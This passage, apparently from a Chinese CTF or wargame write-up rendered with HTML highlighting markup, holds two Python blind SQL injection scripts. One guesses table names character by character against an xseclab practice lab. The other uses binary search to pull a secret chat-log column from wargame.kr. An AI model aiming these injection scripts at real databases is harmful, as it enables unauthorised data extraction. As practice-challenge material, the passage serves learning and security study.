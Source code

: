 dic=<span class="hljs-string">'3_abcdefghijklmnopqrstuvwxyz'</span>
string = <span class="hljs-string">''</span>
<span class="hljs-keyword">for</span> i <span class="hljs-keyword">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">33</span>):
    <span class="hljs-keyword">for</span> j <span class="hljs-keyword">in</span> dic:
        url=<span class="hljs-string">'http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php?id=1 and ord((select substr(table_name,{0},1) from information_schema.tables where table_schema=database())) = {1}'</span>.format(str(i),ord(j))
        s=requests.get(url=url , cookies=cookies)
        content=s.content
        length=len(content)
        <span class="hljs-keyword">print</span> length
        <span class="hljs-keyword">if</span> length &gt; <span class="hljs-number">400</span> :
            string+=j
            <span class="hljs-keyword">break</span>
    <span class="hljs-keyword">print</span> string </code></pre>
<p>二分法盲注</p>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-comment"># coding:utf-8</span>
<span class="hljs-keyword">import</span> requests
<span class="hljs-keyword">from</span> math <span class="hljs-keyword">import</span> ceil
<span class="hljs-keyword">global</span> string
string = <span class="hljs-string">''</span>

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">charge</span><span class="hljs-params">(mid,i)</span>:</span><span class="hljs-comment">#判断大小</span>
    url=<span class="hljs-string">'http://wargame.kr:8080/web_chatting/chatview.php?t=1&amp;ni=if(ascii(substr((select group_concat(readme) from chat_log_secret),{0},1))&lt;={1},10000000000,23334)'</span>.format(str(i),str(mid))
    <span class="hljs-comment">#</span>
    s=requests.get(url=url)
    content=s.content
    length=len(content)
    <span class="hljs-comment">#print length</span>
    <span class="hljs-keyword">if</span> length &gt; <span class="hljs-number">10</span> :
        <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>
    <span class="hljs-keyword">else</span>:
        <span class="hljs-keyword">return</span> <span class="hljs-number">1</span>

<span class="hljs-function"><span class="hljs-keyword">def</span> <span class="hljs-title">dichotomie</span><span class="hljs-params">(l,r,i)</span>:</span><span class="hljs-comment">#利用二分法查找</span>

    mid = (l+r)/<span class="hljs-number">2</span>
    <span class="hljs-comment">#print "l and r ,mid:",l,r,mid</span>
    <span class="hljs-keyword">if</span> l == r:
        <span class="hljs-keyword">global</span> string
        string += chr(r)
        <span class="hljs-keyword">print</span> string
        <span class="hljs-keyword">return</span> <span class="hljs-number">0</span>
    <span class="hljs-keyword">if</span> charge(mid,i):<span class="hljs-comment">#&lt;=</span>
        <span class="hljs-comment">#print 0</span>
        dichotomie(l,mid,i)
    <span class="hljs-keyword">else</span>:
        <span class="hljs-comment">#print 1</span>
        dichotomie(int(ceil((l+r)*<span class="hljs-number">1.0</span>/<span class="hljs-number">2</span>)),r,i)
